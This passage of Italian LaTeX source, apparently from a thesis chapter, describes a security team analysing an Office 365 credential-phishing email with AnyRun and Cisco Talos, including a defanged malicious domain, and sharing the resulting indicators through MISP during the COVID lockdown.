        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/sandbox.jpg}
    \end{center}
    \caption{Analisi allegato .htm in sandbox AnyRun}
    \label{fig:Analisi allegato .htm in sandbox AnyRun}
\end{figure} 

\newpage

Abbiamo analizzato il dominio anche con Cisco Talos Intelligence, confermandoci che si tratta di un dominio malevolo conosciuto:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talosdomain3.png}
    \end{center}
    \caption{Analisi how-to-beauty[.]com con Cisco Talos Intelligence}
    \label{fig:Analisi how-to-beauty[.]com con Cisco Talos Intelligence}
\end{figure} 

Dalle analisi abbiamo potuto concludere che si è trattato di un tentativo di phishing con lo scopo di estorcere le credenziali dell’utenza di Office 365 tramite ingegneria sociale. Inoltre si può osservare che la mail è stata inviata da un indirizzo di un dominio lecito ma compromesso, per questo motivo il messaggio è riuscito a superare i protocolli di certificazione e raggiungere il destinatario target.\par

Completata l’analisi abbiamo provveduto a fornire il report al client ed a genereare l’evento MISP nell’istanza privata per condividerla con le istanza pubblice CIRCL e COVID, con cui collaboriamo:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/mispShare1.png}
    \end{center}
    \caption{Evento condiviso su MISP relativo alla mail di phishing}
    \label{fig:Evento condiviso relativo alla mail di phishing}
\end{figure} 

\newpage

Particolarmente durante il lockdown abbiamo condiviso diverse analisi mail e IoC legate al COVID: 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/mispShare2.png}
    \end{center}
    \caption{Evento condiviso su MISP relativo a una campagna di spear phishing durante il lockdown}
    \label{fig:Evento condiviso su MISP relativo a una campagna di spear phishing durante il lockdown}
\end{figure} 

In questo modo abbiamo contribuito alla battaglia contro il COVID anche sul piano cybersecurity, condividendo con altre organizzazioni (utilizzando un TLP: white) le analisi effettuate, al fine di ridurre i tempi di rimedio e addestrare gli strumenti di sicurezza a prevenire e bloccare le minacce in modo proattivo.
